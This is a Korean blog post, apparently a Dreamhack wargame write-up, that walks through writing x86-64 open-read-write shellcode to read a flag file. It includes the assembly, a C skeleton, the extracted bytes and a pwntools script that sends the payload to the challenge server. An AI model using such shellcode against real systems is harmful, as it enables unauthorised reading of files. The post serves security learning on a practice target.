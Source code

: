 ```yaml
---
title: "[Dreamhack] shell_basic 문제 풀이"
date: "2024-07-12"
tags: ["dreamhack", "system_hacking", "wargame"]
draft: false
summary: "요약: 어셈블리어는 어렵다."
---
```


## 어셈 코드 작성

일단 코드는 이전 lecture 에서 사용한 orw 쉘코드를 바탕으로 진행했음.

```assembly
; File name: orw.asm
section .text
global _start
_start:
push 0x0
mov rax, 0x676e6f6f6f6f6f6f
push rax
mov rax, 0x6c5f73695f656d61
push rax
mov rax, 0x6e5f67616c662f63
push rax
mov rax, 0x697361625f6c6c65
push rax
mov rax, 0x68732f656d6f682f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall
mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall
mov rdi, 1
mov rax, 0x1
syscall
```

## 스켈레톤 코드 작성

```c
// File name: orw-skeleton.c
// Compile Option: gcc -o orw-skeleton orw-skeleton.c -masm=intel

__asm__(

".global run_sh\n"
"run_sh:\n"

"push 0x0\n"
"mov rax, 0x676e6f6f6f6f6f6f\n"
"push rax\n"
"mov rax, 0x6c5f73695f656d61\n"
"push rax\n"
"mov rax, 0x6e5f67616c662f63\n"
"push rax\n"
"mov rax, 0x697361625f6c6c65\n"
"push rax\n"
"mov rax, 0x68732f656d6f682f\n"
"push rax\n"

"mov rdi, rsp\n"
"xor rsi, rsi\n"
"xor rdx, rdx\n"
"mov rax, 2\n"
"syscall\n"

"mov rdi, rax\n"
"mov rsi, rsp\n"
"sub rsi, 0x30\n"
"mov rdx, 0x30\n"
"mov rax, 0x0 \n"
"syscall\n"
"mov rdi, 1\n"
"mov rax, 0x1\n"
"syscall\n"

"xor rdi, rdi # rdi = 0\n"
"mov rax, 0x3c # rax = sys_exit\n"
"syscall # exit(1)");

void run_sh();

int main() { run_sh(); }
```

위처럼 C언어에 어셈코드 붙여서 스켈레톤 코드 작성.
하지만 이걸로 해보다가 드림핵 보니까 nasm으로 어셈 코드 직접 컴파일 해서 걍 그렇게 진행함.
~~이걸로 하루 날림~~

## shellcode 추출

이 부분이 드림핵 lecture 에 설명이 애매모호하게 되어 있어서 구글 잼민이한테 물어봤다.

![](https://i.imgur.com/w0r4Mby.png)

아하 그렇군.
위에 명령어 대로 진행했다.
그랬더니...

```hex
6a00
48b86f6f6f6f6f
6f6e67
50
48b8616d655f69
735f6c
50
48b8632f666c61
675f6e
50
48b8656c6c5f62
617369
50
48b82f686f6d65
2f7368
50
4889e7
4831f6
4831d2
b802000000
0f05
4889c7
4889e6
4883ee30
ba30000000
b800000000
0f05
bf01000000
b801000000
0f05
```

이런 값을 뱉어줬다.
원래는 파이썬으로 `\x00` 형식으로 바꿔주려다가 코드짜기 귀찮아서 요래요래 해서

```shellcode
x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05
```

이처럼 만들어주었다.

그리고 넣어봤는데 익스 실패..

찾아봤는데 pwntools로 넣어보라고 해서 해봤다.

코드는

```python
from pwn import

p = remote('host1.dreamhack.games', 13670 )
context.arch = 'amd64'

shellcode = b'\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05'

p.sendlineafter('shellcode: ', shellcode)

print(p.recv())

# shell을 따는게 목적이 아닌 문제라서 p.interactive()는 사용 안함 :)
```

최종적으로
![](https://i.imgur.com/TEx5iul.png)

보다시피 익스플로잇 성공!!

## 느낀점

쉘코드를 직접 짜본적이 없었는데 이렇게 직접 어셈 코드 작성해서 성공해서 생각보다 기분이 좋았따..
~~드릅게 빡시네 이거;;;~~
